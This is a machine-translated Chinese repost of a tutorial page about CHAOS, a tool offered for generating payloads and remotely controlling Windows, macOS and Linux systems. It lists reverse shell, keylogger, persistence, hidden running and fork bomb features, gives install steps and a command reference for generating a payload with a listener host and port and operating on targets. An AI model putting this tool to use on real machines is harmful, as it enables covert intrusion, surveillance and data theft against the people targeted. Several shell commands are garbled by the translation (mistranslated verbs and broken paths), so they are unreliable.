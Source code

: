 # 混沌:允许生成有效载荷和控制远程操作系统的 poco

> 原文：<https://kalilinuxtutorials.com/chaos-poc/>

CHAOS 是一个 PoC，它允许生成有效负载并控制远程操作系统。

**特性**

| 特征 | Windows | 苹果个人计算机 | Linux |
| --- | --- | --- | --- |
| `Reverse Shell` | X | X | X |
| `Download File` | X | X | X |
| `Upload File` | X | X | X |
| `Screenshot` | X | X | X |
| `Keylogger` | X |
| `Persistence` | X |
| `Open URL` | X | X | X |
| `Get OS Info` | X | X | X |
| `Fork Bomb` | X | X | X |
| `Run Hidden` | X |

**也可阅读-[osme deus:用于侦察的全自动攻击性安全工具&漏洞扫描](https://kalilinuxtutorials.com/osmedeus-reconnaissance-vulnerability-scanning/)**

**如何安装**

安装依赖项
$ sudo apt 安装 golang git -y

获取此库
$ go 获取 github.com/tiagorlampert/CHAOS

获取外部 golang 依赖项(需要获取所有依赖项)
$ go 获取 github.com/kbinani/screenshot
$ go 获取 github.com/lxn/win
$ Go 获取 github.com/matishsiao/goInfo
$ Go 获取 golang.org/x/sys/windows

也许您会看到消息“打包 github.com/lxn/win:构建约束排除所有 Go 文件”。

之所以会出现这种情况，是因为这些库是针对 windows 系统的，但它需要构建有效负载。

进入资源库
$ CD ~/Go/src/github . com/tiagorlampert/CHAOS

Run
$ Go Run main . Go

**如何使用？**

| 命令 | 主机上有… |
| --- | --- |
| `generate` | 生成有效载荷(例如`generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`) |
| `lhost=` | 为连接指定 ip |
| `lport=` | 指定用于连接的端口 |
| `fname=` | 指定要输出的文件名 |
| `--windows` | 目标窗口 |
| `--macos` | 目标 Mac OS |
| `--linux` | 目标 Linux |
| `listen` | 监听新的连接(例如`listen lport=8080`) |
| `serve` | 提供文件 |
| `exit` | 退出此程序 |

| 命令 | 目标是… |
| --- | --- |
| `download` | 文件下载 |
| `upload` | 文件上传 |
| `screenshot` | 截图 |
| `keylogger_start` | 启动键盘记录器会话 |
| `keylogger_show` | 显示键盘记录器会话日志 |
| `persistence_enable` | 启动时安装 |
| `persistence_disable` | 从启动中删除 |
| `getos` | 获取操作系统名称 |
| `lockscreen` | 锁定操作系统屏幕 |
| `openurl` | 打开通知的网址 |
| `bomb` | 跑叉炸弹 |
| `clear` | 清空屏幕 |
| `back` | 关闭连接，但继续在目标上运行 |
| `exit` | 关闭连接并退出目标 |

**演示视频**

[https://www.youtube.com/embed/Fq_0yDPFjYE?feature=oembed&enablejsapi=1](https://www.youtube.com/embed/Fq_0yDPFjYE?feature=oembed&enablejsapi=1)

![](img//6b14bf51932a7ba3389bc6c63ebd70e8.png)

**免责声明**

本软件按“原样”提供，没有任何形式的担保。您可以自担风险使用该软件。最终用户完全负责使用。开发人员不承担任何责任，也不对该程序造成的任何误用或损坏负责。